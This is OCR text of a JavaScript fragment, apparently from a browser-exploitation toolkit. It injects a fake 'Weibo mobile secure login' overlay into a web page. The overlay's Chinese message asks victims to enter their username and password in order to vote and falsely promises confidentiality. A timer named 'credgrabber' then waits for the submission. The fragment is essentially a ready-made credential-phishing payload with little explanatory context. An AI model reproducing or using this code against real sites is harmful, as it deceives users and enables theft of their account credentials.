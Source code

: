 ```
        var bbarstyle = 'style="color: rgb(0, 0, 0);background-color: rgb(242, 242, 242);padding: 

8px;text-align: right;border-top: 1px solid rgb(198, 198, 198);height:28px;margin-top:10px;"';
        var messagestyle = 'style="align:left;font-size:11px;font-family:tahoma,verdana,arial,sans-

serif;margin:10px 15px;line-height:12px;height:40px;"';
        var box_prestyle = 'style="color: grey;font-size: 11px;font-weight: bold;font-family: 

tahoma,verdana,arial,sans-serif;padding-left:30px;"';
        var inputboxstyle = 'style="width:140px;font-size: 11px;height: 20px;line-height:20px;padding-

left:4px;border-style: solid;border-width: 1px;border-color: rgb(255,102,0);"'; 
        var buttonstyle = 'style="font-size: 13px;background:#ff6600;color:#fff;font-weight:bold;border: 

1px #29447e solid;padding: 3px 3px 3px 3px;clear:both;margin-right:5px;"';

            var title = '微博手机版安全登录';
            var messagewords = '请输入您的用户名密码登录后进行投票。<br/><br/>我们将对您的投票信息严格保密。';
            var buttonLabel = '<input type="button" name="ok" value="登录" id="ok" ' +buttonstyle+ ' 

onClick="document.getElementById(\'buttonpress\').value=\'true\'" onMouseOver="this.bgColor=\'#00CC00\'" 

onMouseOut="this.bgColor=\'#009900\'" bgColor=#009900>';

        // Build page including styles
        sneakydiv.innerHTML= '<div id="window_container" '+windowborder+ '><div id="windowmain" ' 

+windowmain+ '><div id="title_bar" ' +tbarstyle+ '>' +title+ '</div><p id="message" ' +messagestyle+ '>' + 

messagewords + '</p><table><tr><td align="right"> <div id="box_pre" ' +box_prestyle+ '>邮箱/会员帐号/手机号: 

</div></td><td align="left"><input type="text" id="uname" value="" onkeydown="if (event.keyCode == 13) 

document.getElementById(\'buttonpress\').value=\'true\'"' +inputboxstyle+ '/></td></tr><tr><td align="right"><div 

id="box_pre" ' +box_prestyle+ '>密码: </div></td><td align="left"><input type="password" id="pass" name="pass" 

onkeydown="if (event.keyCode == 13) document.getElementById(\'buttonpress\').value=\'true\'"' +inputboxstyle+ 

'/></td></tr></table>' + '<div id="bottom_bar" ' +bbarstyle+ '>' +buttonLabel+ '<input type="hidden" 

id="buttonpress" name="buttonpress" value="false"/></div></div></div>';

        // Repeatedly check if button has been pressed
        credgrabber = setInterval(checker,1000);
    }

```
